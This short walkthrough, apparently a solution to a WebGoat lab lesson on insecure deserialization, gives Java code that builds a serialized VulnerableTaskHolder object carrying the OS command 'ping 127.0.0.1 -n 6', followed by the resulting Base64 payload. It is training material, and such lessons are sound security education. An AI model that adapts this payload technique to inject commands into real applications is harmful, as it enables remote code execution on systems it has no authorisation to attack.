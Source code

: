 # (A8) Insecure Deserialization

## Lesson 5 - Let’s try
WebGoat project contains a vulnerable class `VulnerableTaskHolder.java`. This is how
you construct your payload:
```
var byteStream = new ByteArrayOutputStream();
var objectStream = new ObjectOutputStream(byteStream);
objectStream.writeObject(new VulnerableTaskHolder("myTask", "ping 127.0.0.1 -n 6"));
String payload = Base64.getEncoder().encodeToString(byteStream.toByteArray());
System.out.println(payload);
```

The payload (for Windows) is:
```
rO0ABXNyADFvcmcuZHVtbXkuaW5zZWN1cmUuZnJhbWV3b3JrLlZ1bG5lcmFibGVUYXNrSG9sZGVyAAAAAAAAAAICAANMABZyZXF1ZXN0ZWRFeGVjdXRpb25UaW1ldAAZTGphdmEvdGltZS9Mb2NhbERhdGVUaW1lO0wACnRhc2tBY3Rpb250ABJMamF2YS9sYW5nL1N0cmluZztMAAh0YXNrTmFtZXEAfgACeHBzcgANamF2YS50aW1lLlNlcpVdhLobIkiyDAAAeHB3DgUAAAfkBAUKMA0bu3KYeHQAE3BpbmcgMTI3LjAuMC4xIC1uIDZ0AAZteVRhc2s=
```